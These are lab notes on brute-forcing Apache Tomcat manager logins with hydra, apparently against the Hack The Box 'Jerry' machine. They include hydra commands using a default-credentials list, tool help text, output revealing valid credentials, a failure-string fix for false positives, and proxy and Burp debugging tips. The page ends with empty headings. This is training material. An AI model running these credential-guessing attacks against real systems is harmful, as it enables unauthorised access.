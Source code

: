 ### 
```
hydra -C creds.txt http-get://10.10.10.95:8080/manager/html
hydra -U http-get
hydra -C creds.txt http-get://10.10.10.95:8080/manager/html:F='Access Denied'
```

# hydra Options:
```
-l LOGIN or -L FILE  login with LOGIN name, or load several logins from FILE
-p PASS  or -P FILE  try password PASS, or load several passwords from FILE
-C FILE   colon separated "login:pass" format, instead of -L/-P options

-U        service module usage details
```

### Username:Password
https://github.com/netbiosX/Default-Credentials/blob/master/Apache-Tomcat-Default-Passwords.mdown
Save as: labs/htb/_BeginnerTrack/Jerry/creds.txt
```
admin:password
admin:
... snip ...
tomcat:admin
tomcat:changethis
```

### Supported services
```
Supported services: adam6500 asterisk cisco cisco-enable cobaltstrike cvs firebird ftp[s] http[s]-{head|get|post} http[s]-{get|post}-form http-proxy http-proxy-urlenum icq imap[s] irc ldap2[s] ldap3[-{cram|digest}md5][s] memcached mongodb mssql mysql nntp oracle-listener oracle-sid pcanywhere pcnfs pop3[s] postgres radmin2 rdp redis rexec rlogin rpcap rsh rtsp s7-300 sip smb smtp[s] smtp-enum snmp socks5 ssh sshkey svn teamspeak telnet[s] vmauthd vnc xmpp
```

### hydra -U http-get
```
$ hydra -U http-get
Help for module http-get:
============================================================================
Module http-get requires the page to authenticate.
The following parameters are optional:
 (a|A)=auth-type   specify authentication mechanism to use: BASIC, NTLM or MD5
 (h|H)=My-Hdr\: foo   to send a user defined HTTP header with each request
 (F|S)=check for text in the HTTP reply. S= means if this text is found, a
       valid account has been found, F= means if this string is present the
       combination is invalid. Note: this must be the last option supplied.
For example:  "/secret" or "http://bla.com/foo/bar:H=Cookie\: sessid=aaaa" or "https://test.com:8080/members:A=NTLM"
```

### Common Mistakes
login: admin   password: admin are not the right combination, see the help above
```
$ hydra -C creds.txt http-get://10.10.10.95:8080/manager/html

[DATA] attacking http-get://10.10.10.95:8080/manager/html
[8080][http-get] host: 10.10.10.95   login: admin   password: admin
[8080][http-get] host: 10.10.10.95   login: tomcat   password: s3cret
1 of 1 target successfully completed, 2 valid passwords found

```

### Now you got it right
```
$ hydra -C creds.txt http-get://10.10.10.95:8080/manager/html:F='Access Denied'

[DATA] max 16 tasks per 1 server, overall 16 tasks, 25 login tries, ~2 tries per task
[DATA] attacking http-get://10.10.10.95:8080/manager/html:F=Access Denied
[8080][http-get] host: 10.10.10.95   login: tomcat   password: s3cret
1 of 1 target successfully completed, 1 valid password found

```

### Use HYDRA_PROXY_HTTP or HYDRA_PROXY environment variables for a proxy setup.
```
$ hydra -h
... [snip] ...
E.g. % export HYDRA_PROXY=socks5://l:p@127.0.0.1:9150 (or: socks4:// connect://)
     % export HYDRA_PROXY=connect_and_socks_proxylist.txt  (up to 64 entries)
     % export HYDRA_PROXY_HTTP=http://login:pass@proxy:8080
     % export HYDRA_PROXY_HTTP=proxylist.txt  (up to 64 entries)
... [snip] ...
```

### To debug, send Hydra output to Burp. Use this in the same line
```
HYDRA_PROXY_HTTP=http://localhost:8080 hydra -C creds.txt http-get://10.10.10.95:8080/manager/html:F='Access Denied'
```


### 
```

```

### 
```

```

### 
```

```

### 
```

```

### 
```

```

### 
```

```
